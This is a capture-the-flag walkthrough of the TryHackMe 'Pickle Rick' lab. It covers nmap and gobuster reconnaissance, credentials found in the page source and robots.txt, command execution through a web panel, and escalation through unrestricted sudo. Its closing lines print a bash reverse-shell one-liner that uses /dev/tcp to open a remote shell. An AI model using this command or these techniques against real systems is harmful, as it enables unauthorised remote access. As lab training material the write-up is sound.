 ### Try-Hack-Me Pickle Rick

This lab is an easy rated, CTF style lab, that is based on the television show Rick and Morty.
In this Rick and Morty themed lab, users are challenged to exploit a web server to find 3 ingredients that will help Rick make a potion that will transform him from pickle to human.

First after starting the machine I run Nmap to see what ports are open and saving the results to a file called initial_scan.

![nmap1](https://user-images.githubusercontent.com/90977933/133953217-d124f8bc-3925-4df8-beb7-5b187ef3f915.png)

With only two open ports, 22 and 80, I use the -A flag in Nmap on those two ports to get additional information about the ports and victim machine.

{nmap2 photo}

{nmap3 photo}

From our results I can the victim machine is running Linux Ubuntu and that there is an Apache web server and webpage on port 80

Next I visit the webpage in my browser. 

{browser1 photo} 

Here begins the start of the story. The webpage is a note from Rick to Morty explaining that he has turned himself into a pickle again and needs Morty\'92s help to turn back.
He tells Morty to log into his computer and find the last three secret ingredients needed for his "pickle-reverse potion", but he has no idea what the password is. 

My first thought it to look at the source code of the webpage to see if there is anything useful.

{browser1_sc photo}

AH HA! In the source code there is a username commented out by rick { R1ckRul3s }. 

As a general practice, I check to see if the webpage has a robots.txt before moving on, and it does!

{robots1 photo} 

There isn't much there except for wubbalubbadubdub. Into the lab notes It goes.

Just to rule it out, I try to use the username we found in the source code and the string I found in the robots.txt, as a username and password combo on the open ssh with no success. On we go.

Next, I run gobuster to see if there are any hidden directories or redirects.

{gobuster1 photo}

In the results there are two redirects to a /login.php directory. 

{gobuster2 photo}

I visit the login.php and find a login portal.
Next it try the same username and password combo I used earlier for SSH.

Success!

{portal1 photo}

After clicking around on the website and viewing the source code, I find all except for the Commands page, redirects to a denied.php with a message that only the REAL rick can view this page.
Since I know the machine we are connected to is a linux machine, I enter the whoami command on the Command Panel page to see what happens.

{command1 photo}

Printed to our screen I see the output www-data.

{command2 photo}

I assume then that I am in the /var/www/html folder. I then try ls -la and find there is a file called Sup3rS3cretPickl3Ingred.txt, so I visit that page and find our first flag.
Trying to use the cat command showed that it is disabled.

{disabled photo}

Looking into the disabled page I find a comment that looks like base encoding.

{disabled2 photo}

After decoding a few times I realized the string was getting smaller and smaller which led me to believe it may have been a password.
It was not... rabbit hole

Getting back on track! I go back to the command page and some directory traversal to see what other information I can find. Using ls -la ../../../home I find users rick and ubuntu. I later found that typing ../../ was unnecessary 

{traversal1 photo}

Inside of the rick directory, there is a file called second ingredients.

{traversal2 photo}

Since cat is disabled I tried the more command with no luck. Next option is the less command.

{traversal3 photo}

BAM! There is our second flag.

I assume now the 3rd and final flag is in the machines root folder. Typically I would try to get a shell on the machine but since we can execute commands here, lets see what we can do here first.
Since I am logged in as the www-data user. I check to see what permissions they have using sudo -l 

{root1 photo}

The user www-data can run all commands with no passwords. So now I sudo -ls -la the contents of the /root folder

{root2 photo}

And like before, I used the less command to view the contents of file 3rd.txt for the third and final flag.

{root3 photo}

This lab was a quick and easy room that didn\'92t require you to gain access to solve. 
I did go back and try tp gain access using a reverse shell and had success with 
Bash -c \'bash -I >& /dev/tcp/IP address/8080 0>&1\'
From there it was the same sudo -l commands to find the final flag.

